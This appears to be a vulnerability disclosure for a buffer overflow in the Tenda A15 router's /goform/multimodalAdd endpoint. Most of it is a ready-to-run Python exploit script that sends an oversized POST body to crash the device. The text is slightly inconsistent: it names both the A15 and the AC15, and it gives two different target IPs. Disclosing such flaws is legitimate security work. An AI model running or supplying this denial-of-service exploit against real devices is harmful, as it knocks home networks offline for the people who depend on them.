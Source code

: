 # Tenda A15 V15.13.07.09 has a buffer overflow vulnerability

## Vulnerable URL
http://192.168.159.128/goform/multimodalAdd

Vulnerability Description
Tenda A15 is a dual-band three-gigabit wireless router suitable for fiber-optic homes within 1000 megabits, supporting gigabit ports, intelligent frequency selection, parental control and other functions. 
Shenzhen Jixiang Tenda Technology Co., Ltd. AC15 has a binary vulnerability that can be exploited by attackers to cause a denial of service.

Payload：

exp.py
```
import requests

url = "http://192.168.85.160/goform/multimodalAdd"
data = {
    "HTTP/1.1 200 OK\r\nContent-Length:%d\r\nContent-type: text/plain; charset=utf-8\r\nPrag ma: no-cache\r\nCache-Control: no-cache\r\n\r\n":b'A'*1000000000
}
res = requests.post(url=url,data=data)
print(res.content)
```
<img width="547" alt="image" src="https://github.com/user-attachments/assets/45a9e8b6-fa53-49c5-87a3-8db9b98615d0" />

When running the exp.py script, the memory is filled up and the device crashes.

<img width="640" alt="image" src="https://github.com/user-attachments/assets/7d3cf699-7f4a-4e23-b712-5353991aa4aa" />

![image](https://github.com/user-attachments/assets/8382d7c2-84d5-4927-adab-f06426183bed)
